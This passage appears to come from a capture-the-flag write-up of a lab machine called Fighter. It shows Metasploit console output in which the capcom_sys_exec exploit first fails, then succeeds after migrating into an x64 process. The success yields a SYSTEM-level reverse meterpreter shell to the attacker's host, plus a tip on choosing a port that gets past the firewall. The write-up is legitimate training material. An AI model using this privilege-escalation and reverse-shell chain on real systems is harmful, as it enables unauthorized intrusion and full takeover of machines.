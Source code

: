     
    
    msf6 exploit(windows/local/capcom_sys_exec) > run
    
    [!] SESSION may not be compatible with this module:
    [!]  * incompatible session architecture: x86
    [*] Started reverse TCP handler on 10.10.14.6:443 
    [-] Exploit aborted due to failure: no-target: Running against WOW64 is not supported, please get an x64 session
    [*] Exploit completed, but no session was created.
    

It’s unhappy about the x86 architecture. I needed x86 powershell to get onto
Fighter, but now I’ll migrate into a x64 process. There’s a `cmd.exe` process
that seems to be persistent:

    
    
    meterpreter > ps                                  
                                                                                   
    Process List                                                            
    ============                                                                   
                                                                                   
     PID   PPID  Name                     Arch  Session  User             Path
     ---   ----  ----                     ----  -------  ----             ----  
    ...[snip]...
     3664  1132  cmd.exe                  x64   0        FIGHTER\sqlserv  C:\Windows\System32\cmd.exe
    
    meterpreter > migrate 3664
    [*] Migrating from 3524 to 3664...
    [*] Migration completed successfully.
    

#### Success

Now running it works:

    
    
    msf6 exploit(windows/local/capcom_sys_exec) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:443 
    [*] Launching msiexec to host the DLL...
    [+] Process 420 launched.
    [*] Reflectively injecting the DLL into 420...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (200262 bytes) to 10.10.10.72
    [*] Meterpreter session 2 opened (10.10.14.6:443 -> 10.10.10.72:49163 )
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

It is important to note that I needed to set the `LPORT` to something that
would get out through the firewall.

### Potato

#### Enumeration
